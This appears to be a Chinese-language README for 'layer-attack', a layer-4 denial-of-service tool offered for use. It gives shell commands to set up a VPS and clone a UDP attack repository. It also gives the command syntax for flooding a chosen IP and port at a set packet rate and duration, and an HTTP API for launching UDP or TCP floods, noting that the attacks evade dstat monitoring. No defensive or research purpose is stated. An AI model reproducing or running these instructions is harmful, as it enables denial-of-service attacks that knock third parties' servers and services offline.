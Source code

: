# layer-attack 一个简单的layer4攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
请选择磁盘丰富的位置 执行以下命令
<br>

```BASH
cd ~
yum update -y
yum install epel-release -y
yum install http://rpms.remirepo.net/enterprise/remi-release-7.rpm -y
yum install yum-utils -y
yum-config-manager --enable remi-php72
yum install php72 -y
yum install php72-php-fpm php72-php-gd php72-php-json php72-php-mbstring php72-php-mysqlnd php72-php-xml php72-php-xmlrpc php72-php-opcache -y
systemctl enable php72-php-fpm.service
yum install -y git wget curl net-tools
git clone https://github.com/KLDGodY/udp-attack.git
cd udp-attack
perl setup.pl
```

<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，攻击不会在dstat中呈现
<br>
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodygroup">@KLDGodYGroup</a><br>欢迎各位dl加入，，，
